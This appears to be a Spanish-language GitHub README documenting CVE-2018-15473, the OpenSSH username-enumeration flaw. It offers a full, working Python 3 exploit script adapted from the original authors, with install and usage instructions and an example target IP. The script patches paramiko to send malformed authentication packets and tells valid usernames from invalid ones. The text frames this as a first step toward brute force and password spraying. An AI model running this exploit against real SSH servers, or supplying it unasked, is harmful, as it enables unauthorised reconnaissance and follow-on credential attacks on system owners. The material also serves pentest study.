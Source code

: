 # CVE-2018-15473 – Enumeración de usuarios SSH

## Información general

> CVE-2018-15473 es una vulnerabilidad en versiones de OpenSSH hasta 7.7 que permite a un atacante remoto no autenticado enumerar nombres de usuario válidos en un servidor mediante un ataque de sincronización o de paquetes malformados.

Este documento recoge la explotación de la vulnerabilidad **CVE-2018-15473**, que afecta al servicio SSH y permite enumerar usuarios válidos en un sistema remoto.  
El fallo se debe a la manera en que el servidor responde de forma diferente cuando el usuario existe o no durante el proceso de autenticación.

## Créditos

El exploit original fue desarrollado por **Matthew Daley, Justin Gardner y Lee David Painter**.  
Nuestra versión está **adaptada a Python 3** para que pueda ejecutarse en sistemas actuales sin necesidad de instalar Python 2.

## Contexto de la vulnerabilidad

Cuando realizamos una autenticación SSH, el servidor responde de forma distinta si el usuario no existe que si existe pero la clave es inválida. Esta diferencia en el flujo de mensajes permite realizar un ataque de enumeración de usuarios de manera remota.

Este tipo de vulnerabilidad se aprovecha en fases tempranas de un pentest, ya que conocer usuarios válidos nos ayuda posteriormente a realizar ataques de fuerza bruta, password spraying o a buscar credenciales filtradas en fuentes públicas.

## Dependencias

Antes de ejecutar el exploit debemos instalar `paramiko` en Python 3:

```bash
pip install paramiko
```

---

## Uso

La sintaxis básica es la siguiente:

```bash
python3 ssh_enum.py <target> -p <port> <username>
```

Ejemplo:

```bash
python3 ssh_enum.py 192.168.1.74 -p 22 root
```

- Si el usuario existe → `[+] root es un usuario válido`
    
- Si el usuario no existe → `[-] root no es un usuario válido`

---

## Script adaptado a Python 3

```python
#!/usr/bin/env python3
# CVE-2018-15473 SSH User Enumeration by Leap Security (@LeapSecurity) https://leapsecurity.io
# Original credits: Matthew Daley, Justin Gardner, Lee David Painter
# Adaptado a Python3 para compatibilidad y uso actual

import argparse, logging, paramiko, socket, sys, os

class InvalidUsername(Exception):
    pass

# malicious function to malform packet
def add_boolean(*args, **kwargs):
    pass

# function that'll be overwritten to malform the packet
old_service_accept = paramiko.auth_handler.AuthHandler._client_handler_table[
        paramiko.common.MSG_SERVICE_ACCEPT]

# malicious function to overwrite MSG_SERVICE_ACCEPT handler
def service_accept(*args, **kwargs):
    paramiko.message.Message.add_boolean = add_boolean
    return old_service_accept(*args, **kwargs)

# call when username was invalid
def invalid_username(*args, **kwargs):
    raise InvalidUsername()

# assign functions to respective handlers
paramiko.auth_handler.AuthHandler._client_handler_table[paramiko.common.MSG_SERVICE_ACCEPT] = service_accept
paramiko.auth_handler.AuthHandler._client_handler_table[paramiko.common.MSG_USERAUTH_FAILURE] = invalid_username

# perform authentication with malicious packet and username
def check_user(username):
    sock = socket.socket()
    sock.connect((args.target, int(args.port)))
    transport = paramiko.transport.Transport(sock)

    try:
        transport.start_client()
    except paramiko.ssh_exception.SSHException:
        print('[!] Fallo en la conexión SSH')
        sys.exit(2)

    try:
        transport.auth_publickey(username, paramiko.RSAKey.generate(2048))
    except InvalidUsername:
        print(f"[-] {username} no es un usuario válido")
        sys.exit(3)
    except paramiko.ssh_exception.AuthenticationException:
        print(f"[+] {username} es un usuario válido")

# remove paramiko logging
logging.getLogger('paramiko.transport').addHandler(logging.NullHandler())

parser = argparse.ArgumentParser(description='SSH User Enumeration by Leap Security (@LeapSecurity) - Adaptado a Python3 por Metahumo')
parser.add_argument('target', help="Dirección IP del sistema objetivo")
parser.add_argument('-p', '--port', default=22, help="Introduce puerto SSH")
parser.add_argument('username', help="Usuario que se quiere validar")

if len(sys.argv) == 1:
    parser.print_help()
    sys.exit(1)

args = parser.parse_args()

check_user(args.username)
```

---
